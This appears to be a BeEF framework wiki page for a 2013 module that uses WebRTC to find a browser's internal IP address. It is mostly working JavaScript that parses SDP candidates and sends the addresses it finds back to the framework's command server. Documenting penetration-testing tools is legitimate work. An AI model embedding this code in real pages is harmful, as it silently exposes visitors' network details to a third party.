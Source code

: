 ##Summary
* **Objective**: Get the internal IP address using a nice WebRTC hack
* **Date**: Septembre 2013
* **Authors**: xntrick, @natevw
* **Browsers**: Firefox, Chrome (all versions)
* [[Code|https://github.com/beefproject/beef/tree/master/modules/host/get_internal_ip_webrtc]]

##Internal Working

Use a fun RTC Hack to get the IP address:

```javascript
var RTCPeerConnection = window.webkitRTCPeerConnection || window.mozRTCPeerConnection;

        if (RTCPeerConnection) (function () {

                var addrs = Object.create(null);
            addrs["0.0.0.0"] = false;

            // Establish a connection with ICE / relay servers - in this instance: NONE
            var rtc = new RTCPeerConnection({iceServers:[]});
            if (window.mozRTCPeerConnection) {      // FF needs a channel/stream to proceed
                rtc.createDataChannel('', {reliable:false});
            };

            // Upon an ICE candidate being found
            // Grep the SDP data for IP address data
            rtc.onicecandidate = function (evt) {
                if (evt.candidate) grepSDP(evt.candidate.candidate);
            };

            // Create an SDP offer
            rtc.createOffer(function (offerDesc) {
                grepSDP(offerDesc.sdp);
                rtc.setLocalDescription(offerDesc);
            }, function (e) { beef.net.send('<%= @command_url %>', <%= @command_id %>, "SDP Offer Failed"); });

            function processIPs(newAddr) {
                if (newAddr in addrs) return;
                else addrs[newAddr] = true;
                var displayAddrs = Object.keys(addrs).filter(function (k) { return addrs[k]; });
                beef.net.send('<%= @command_url %>', <%= @command_id %>, "IP is " + displayAddrs.join(" or perhaps "));
            }

            function grepSDP(sdp) {
                var hosts = [];
                sdp.split('\r\n').forEach(function (line) { // c.f. http://tools.ietf.org/html/rfc4566#page-39
                    if (~line.indexOf("a=candidate")) {     // http://tools.ietf.org/html/rfc4566#section-5.13
                        var parts = line.split(' '),        // http://tools.ietf.org/html/rfc5245#section-15.1
                            addr = parts[4],
                            type = parts[7];
                        if (type === 'host') processIPs(addr);
                    } else if (~line.indexOf("c=")) {       // http://tools.ietf.org/html/rfc4566#section-5.7
                        var parts = line.split(' '),
                            addr = parts[2];
                        processIPs(addr);
                    }
                });
            }

```

##Feedback

* **Firefox**: Working on 28-

##References

* http://net.ipcalf.com/
